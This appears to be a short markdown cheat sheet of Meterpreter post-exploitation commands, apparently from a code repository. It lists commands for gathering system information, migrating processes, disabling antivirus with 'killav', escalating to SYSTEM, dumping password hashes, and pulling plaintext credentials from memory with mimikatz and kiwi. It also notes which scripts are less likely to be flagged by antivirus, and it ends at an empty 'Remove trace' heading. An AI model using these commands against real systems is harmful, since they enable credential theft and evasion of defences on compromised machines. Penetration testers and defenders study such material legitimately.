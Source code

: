 ## Meterpreter

	help
	help -l (show librairies - used to increment features)

### Informations

	sysinfo (system details)
	getpid (pid of process used by meterpreter)
	ps (show process)
	getuid (show system and user)
	
	migrate pid (migrate process to explorer.exe)

### Scripts

	run checkvm (check if is virtual machine)
	run get_env (environment details)
	run get_applications_list (app list & versions)
	
	run scraper (run lot of scripts and save all on files) (use registry - danger for antivirus)
	cd /root/.msf4/logs/scripts/scraper/...
	
	run winenum (run lot of scripts and save all on files) (don't use registry - less danger for antivirus)
	
	run killav (check if antivirus from list of 50 and desactivate it)

### Elevate privileges

	getsystem

if already have system privilege, can migrate to another process with user privilege and get system privilege easily for this process.

	rev2self (comeback to anterior privileges)

### Passwords

	hashdump (get credentials hash of all users - need system privilege)

### Librairies

	use -l
	
	use mimikatz (search password on system memory)
	help
	wdigest (get list of passwords on memory)
	
	use kiwi (search password on system memory - modern version)
	help
	creds_all

### Remove trace
